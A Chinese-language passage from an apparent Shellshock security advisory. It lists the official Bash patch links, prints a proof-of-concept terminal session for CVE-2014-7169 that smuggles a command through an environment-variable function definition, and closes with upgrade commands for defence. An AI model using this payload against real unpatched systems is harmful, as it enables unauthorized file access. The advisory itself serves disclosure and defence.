 从最早GNU/Linux发行版社区收到的补丁：

[https://bugzilla.novell.com/attachment.cgi?id=606672](https://bugzilla.novell.com/attachment.cgi?id=606672)

可以看出BASH的确没有做异常处理，而直接解析后就执行了。

正式的社区补丁在这里：

http://ftp.gnu.org/pub/gnu/bash/bash-3.0-patches/bash30-017 http://ftp.gnu.org/pub/gnu/bash/bash-3.1-patches/bash31-018 http://ftp.gnu.org/pub/gnu/bash/bash-3.2-patches/bash32-052 http://ftp.gnu.org/pub/gnu/bash/bash-4.0-patches/bash40-039 http://ftp.gnu.org/pub/gnu/bash/bash-4.1-patches/bash41-012 http://ftp.gnu.org/pub/gnu/bash/bash-4.2-patches/bash42-048 http://ftp.gnu.org/pub/gnu/bash/bash-4.3-patches/bash43-025

但由于补丁修复的不完整，导致了CVE-2014-7169的爆出,POC如下：

```
shawn@shawn-fortress /tmp $ date -u > test_file
shawn@shawn-fortress /tmp $ env X='() { (a)=<\' bash -c 'test_file cat'
bash: X: line 1: syntax error near unexpected token `='
bash: X: line 1: `'
bash: error importing function definition for `X'
Thu Sep 25 09:37:04 UTC 2014

```

这个POC可以让攻击者能读文件，看来后续的故事还没结束...................(Sep 25 13:30 UTC 2014)

UTC时间2014年9月25日上午，CVE-2014-7169被BASH社区修复，目前主要的GNU/Linux发行版包括Debian, Gentoo, OpenSUSE, CentOS, RHEL都已经提供了相 关的升级。

2014年9月26日，BASH又爆出了CVE-2014-7186和CVE-2014-7187：

www.openwall.com/lists/oss-security/2014/09/26/2

### 防御方案

在各种GNU/Linux发行版里需要升级：

Debian-based（包括Ubuntu）:

```
sudo apt-get update && apt-get upgrade

```

Gentoo：

```
sudo emerge --sync && glsa-check -f affected

```

OpenSSH:

```
加入no-pty

```
